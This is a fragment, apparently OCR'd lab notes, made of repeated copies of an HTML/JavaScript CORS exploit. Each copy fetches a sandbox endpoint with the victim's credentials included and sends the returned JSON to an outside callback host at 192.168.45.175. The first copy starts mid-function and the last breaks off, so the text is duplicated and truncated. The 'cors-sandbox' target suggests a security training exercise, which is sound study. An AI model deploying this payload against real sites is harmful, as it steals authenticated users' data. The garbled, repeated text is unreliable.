 ```html
  .then(data => {
    fetch('http://192.168.45.175/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
with comments
<html>
<head>
<script>
// Define the URL for fetching data
var url = "https://cors-sandbox/code";

// Function to fetch data from the defined URL
function get_code() {
  // Perform a GET request to the URL with CORS enabled and credentials included
  fetch(url, {
    method: 'GET',
    mode: 'cors',          // Enable Cross-Origin Resource Sharing (CORS)
    credentials: 'include' // Include credentials (e.g., cookies) in the request
  })
  .then(response => response.json()) // Convert the response to JSON
  .then(data => {
    // After receiving and parsing the JSON data, send it to another server
    fetch('http://192.168.45.175/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors' // Disable CORS for the callback request
    });
  });
}

// Call the function to initiate the fetch process
get_code();
</script>
</head>
<body></body>
</html>
<html>
<head>
<script>
// Define the URL for fetching data
var url = "https://cors-sandbox/code";

// Function to fetch data from the defined URL
function get_code() {
  // Perform a GET request to the URL with CORS enabled and credentials included
  fetch(url, {
    method: 'GET',
    mode: 'cors',          // Enable Cross-Origin Resource Sharing (CORS)
    credentials: 'include' // Include credentials (e.g., cookies) in the request
  })
  .then(response => response.json()) // Convert the response to JSON
  .then(data => {
    // After receiving and parsing the JSON data, send it to another server
    fetch('http://192.168.45.175/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors' // Disable CORS for the callback request
    });
  });